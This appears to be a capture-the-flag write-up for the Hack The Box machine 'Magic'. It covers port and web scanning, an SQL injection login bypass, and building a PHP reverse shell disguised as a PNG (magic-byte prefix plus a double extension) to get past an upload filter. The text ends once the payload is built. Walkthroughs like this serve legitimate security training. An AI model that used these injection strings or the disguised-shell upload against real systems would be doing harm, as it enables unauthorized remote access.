 #+title: Magic

* Initial enumeration

We will start with a network scanning with the classic nmap command:

#+begin_src shell
nmap -sC -sV -oN nmap/initial 10.10.10.185
#+end_src

The options that we are using are:
- sC: for the default scripts
- sV: for version enumeration
- oN: for saving the output

You could also use:
- v: for verbose to view the output while it's running since this could take
  a while

We have 22(ssh) and 80(HTTP) open with Apache/2.4.29.

If we go to the page we can see that it's a lot of images and GIF, we can
also view the source but there really not a lot there except for a little hash
in the footer of the page.

Now we can use:
#+begin_src shell
nikto -host 'http://10.10.10.185/' | tee nikto.log
#+end_src

Nikto is a web scanner that can tell us a lot about the vulnerabilities
of a given site.

You can read all about it here https://github.com/sullo/nikto/wiki.
Tee is used to output into a file while, at the same time, it's displayed in
our console.

Also we will use:
#+begin_src shell
gobuster dir -u 'http://10.10.10.185/'
-w /opt/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
#+end_src

This is a tool for brute forcing directories in a domain and it's subdomains.
It uses a wordlist as an input and compares them so we have to provide that.
Mine is in there but yours could be in a different place so keep that in mind.
Also if you do not have this wordlists you
can download them from: https://github.com/danielmiessler/SecLists

We can look at the hash that was in the footer using:
#+begin_src shell :results output :wrap "quote" :exports both
echo 4d61676963 | xxd -r -p
#+end_src

#+RESULTS:
#+begin_quote
Magic
#+end_quote

So nothing particularly useful.

* Initial access

We can also try default credentials in the login page like "admin" or "root" but
there doesn't seem to be anything there.

But we can also try basic SQL injection like:
" OR 1=1 --
or:
' OR 1=1 #
And this last one worked so we now have access to the page and we can see
that it wants us to upload an image.

Now we can try to leverage the ability to upload files to use a reverse shell in
the server. We know it's using PHP so we need a PHP reverse shell. You can use
different scripts for this. I will use this:
https://github.com/pentestmonkey/php-reverse-shell

I'll modify the IP address in the script with mine. You can look yours with:
#+begin_src shell
ip a s tun0
#+end_src

The problem is that it only allows images and even if we change the file
extension of the script it does not permit it.

What we can do is look for what is recognized as an image file. In other
words, what is it that it is being used to verify that is an image.
If we look for the headers of a PNG file, that are used by the OS to
know what kind of file it is, we can know that every one of these files starts
with a series of bytes. These are 89 50 4e 47 0d 0a 1a 0a. But we can't just
create a new file, paste this and write our code below. We need the raw bytes.
So we can reuse the xxd command:
#+begin_src shell
echo 89504e470d0a1a0a | xxd -r -p > pngheader
#+end_src

If we concatenate that pngheader file with our script we could bypass the checks.
But if we simply call it php-reverse-shell.png it will not know what to do with it.
Since this is not a valid PNG file. But if we add .php as a first extension the
server will be able to execute it.

So:
#+begin_src shell
cat pngheader php-reverse-shell.php > reverse-shell.php.png
#+end_src

We could also do this with a simple python script:
#+begin_src python :tangle magic.py :comments link
#!/usr/bin/env python3

magic = bytearray([0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A])

with open("php-reverse-shell.php", "rb") as h:
    content = h.read()

with open("reverse-shell.php.png", "wb") as h:
    h.write(magic + content)
#+end_src
